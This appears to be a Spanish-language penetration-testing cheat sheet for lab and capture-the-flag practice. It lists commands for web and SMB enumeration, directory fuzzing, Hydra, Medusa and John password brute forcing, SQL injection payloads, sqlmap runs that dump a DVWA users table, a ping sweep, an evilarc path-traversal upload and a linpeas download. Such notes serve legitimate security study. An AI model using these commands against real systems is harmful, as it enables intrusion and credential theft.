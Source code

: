 # Comandos básicos para enumerar webs
### Enumeracion Web
	whatweb -v http://
	whatweb -a 3 http://
	wpscan --url http://172.0.0.1:8090 --enumerate u
	/wp-json/wp/v2/users
	/wp-login
	- archivos importantes en wordpress
		wp-config.php
		wp-settings.php --> muy ruidosa y a veces ocaciona denegación de servicio
	- Poner una ip y dominio en el /etc/host 
		nano /etc/hosts
			192.168.10.192 apocalyst.htb
	- enumerar vulnerabilidades plugis y usuarios existentes 
		wpscan --url https://apocalyst.htb -e vp,u --> reconoce vulnerabilidades, usarios validos, gestor de contenidos
	otra forma de enumerar para ver si hay algún proxy que no deje ingresar al sistema
		wafw00f http://
---
### Enumeración web con nikto
	nikto -h http://apocalyst.htb/
---
### Enumeración MSB o samba | smbclient Y AUTENTACIÓN
	ver credenciales default sudo nmap -p --script <ip>
		smb-security-mode
	ver protocolos
		smb-protocols
	Ver smb-discovry
		smb-os-discovery
	ver ssh-http y headers
		ssh*
		http-enum
		http-headers
	ver reursos compartidos
		smb-enum-shares
		smb-enum-users
	otros comandos
		smb-server-stats
		smb-enum-domains
		smb-enum-groups
	aUTENTICACIÓN
		Se puede usar smbmap -H <IP>
		smbmap -u guest -p "" -H <IP>
			smbmap -u "" -p "" -d WORKGROUP -H <ip>
		smbclient -L <IP> -N -seiosn nula
			smbclient -L //<IP>//tmp -L
			smbclient //<IP>//tmp -L 
			smbclient //<IP>//tmp -I <IP>
   		enum4linux -o <IP>
		enum4linux -i <IP>
		enum4linux-ng -As IP-Mvic
---
### Enumeración web con wfuzz
	wfuzz -c -L -t 400 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.98.183/FUZZ
	c-->formato colorizado
	hc-->oculta codigo
	t -->para poner hilos con que trabajaar ejemplo -t 400
	L -->sirve para que los cod 301 se hagan un follow redirect
	filtrar por caracteres
		wfuzz -c -L -t 400 --sc=200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.98.183/FUZZ
		wfuzz -c -L -t 400 --sh=200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.98.183/FUZZ
		wfuzz -c -L -t 400 --hc=404 --hl=170 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.98.183/FUZZ
			sc-->muestra cogido
			sh-->filtra por caraceres
			hl-->filtra por lines
	-filtrar por extensiones
		Se creac un txt con las pabras de las extensiones y lo guardamos en un txt llamado extensions.txt
		wfuzz -c -L -t 400 --hc=404 --hh=1077 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt http://192.168.98.183/FUZZ/FUZ2Z
	-Filtrar por agents
		wfuzz -c -L -H " User-Agent: Google Chrome" -t 400 --hc=404 --hh=1077 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt http://192.168.98.183/FUZZ/FUZ2Z
---
### Enumeración web con dirb
	dirb http://192.168.98.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
---
### Enumeración con gobuster
	gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url http://192.168.98.183
---
### Enumeración con dirsearch
	dirsearch -u http://192.168.98.183 -E -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
---
### MSFCONSOLE-msb
	use auxiliary/scanner/smb/smb_version
	use auxiliary/scanner/smb/smb_login
		set USERPASS_FILE <dicionario>
		set USER_FILE <diccionario>
		set RHOSTS <ip>
---
### Brute Forcing
	Seclist
	Hydra
	hydra -L <dicc> -P <dici> <IP> <protocol-ftp> 
	medusa
	medusa -U <dici> -P <dici> -h <IP> -M <protocol> ftp
	ncrack
	john
	john --format=Raw-MD5 --wordlist=500-worst-passwords.txt <file>
---
### Levantar andoird con docker
	docker run -d --privileged -v /dev/bus/usb:/dev/bus/usb --name adbd sorccu/adb
---
### SQLInjection
	1 union select null, concat(user,password) FROM users#
	
	1' or '1'='1
	
	1' or 1=1 union select null, version() #
	
	sqlmap -u <"url">
	
	sqlmap -u 
	"http://127.0.0.1:42001/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=g52ousnsppf40ag4huu39204jl;security=low" --dbs

		sqlmap -u 
	"http://127.0.0.1:42001/vulnerabilities/sqli/?id=5&Submit=Submit#" --cookie="PHPSESSID=g52ousnsppf40ag4huu39204jl;security=low" --tables

		sqlmap -u 
	"http://127.0.0.1:42001/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=g52ousnsppf40ag4huu39204jl;security=low" -D dvwa -T users --columns
	
	sqlmap -h | grep "dbs"

	sqlmap -u 
	"http://127.0.0.1:42001/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=g52ousnsppf40ag4huu39204jl;security=low" -D dvwa -T users --dumps
---
### PIVOTING
	docker-compose -f docker-compose-subnet.yml -f docker-compose.yml build

	docker-compose -f docker-compose-subnet.yml -f docker-compose.yml up -d

	docker exec -it <id-attacker>  bash
	docker exec -it victim1y2 bash
		instancias-> sudo apt-get install iputils-ping

	docker-compose -f docker-compose-subnet.yml -f docker-compose.yml down

	debe hacer ping atcnate-helper victima-helper victima-victima y no ping entre victima-atacante ping 

		Hydra
			hydra -L user.txt -P pass.t ssh://172.16.100.11
			ssh root@172.16.100.11

	Linpeas sh-linux
		curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
---
### comando de buscqued y no hacer ruido
	for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 byte from" | grep -Oe "([0-9]{1,3}[\.]){3}[0-9]{1,3}"  &); done;

	for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 byte from"  &); done;
---
### Usando evilrac
	echo "exploit test" > test.css
	python2 evilarc.py -Olinux -f doc.tar -p 'static/css' -d 3
	proxychains4 -q curl http://172.16.101.20.5000/static/css/test.css
---
### conectar ssh id_rsa
	ssh -i id_rsa alexia@<ip>
---
### Transferir archivos, remplazo de wget
	scp -i id_rsa file.tipo alexsia@<ip>:/home/alexia
